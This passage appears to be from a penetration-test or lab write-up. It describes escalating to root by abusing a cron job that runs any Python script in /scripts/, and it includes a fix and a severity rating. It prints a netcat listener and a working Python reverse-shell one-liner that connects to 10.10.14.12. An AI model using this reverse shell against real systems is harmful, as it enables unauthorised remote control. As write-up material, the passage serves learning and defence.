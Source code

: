 **Proof.txt Contents:**

```txt
cc4f0afe3a1026d402ba10329674a8e2
```

#### Privilege Escalation as *scriptmanager*

**Vulnerability Exploited:** Crontab running job.

**Vulnerability Explanation:**

The root user's crontab contains a job of which executes any python script in the */scripts/* directory on a consistent time interval. An attacker can, with the permissions of *scriptmanager* place a malicious python script in such directory.

**Vulnerability Fix:**

Do not have the root user's crontab execute just any file in the */scripts/* directory. Make sure user's need root permission to edit/create files in the */scripts/* directory.

**Severity:** Critical

**Exploit Code:**

Start a netcat listener:

```bash
nc -lvnp 1234
```

Edit */scripts/test.py*

```bash
echo -e "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);" > /scripts/test.py
```

Looking back at our listener, we get a reverse shell: 

![x](screenshots-storage/get-root.png)

**Proof Screenshot Here:**
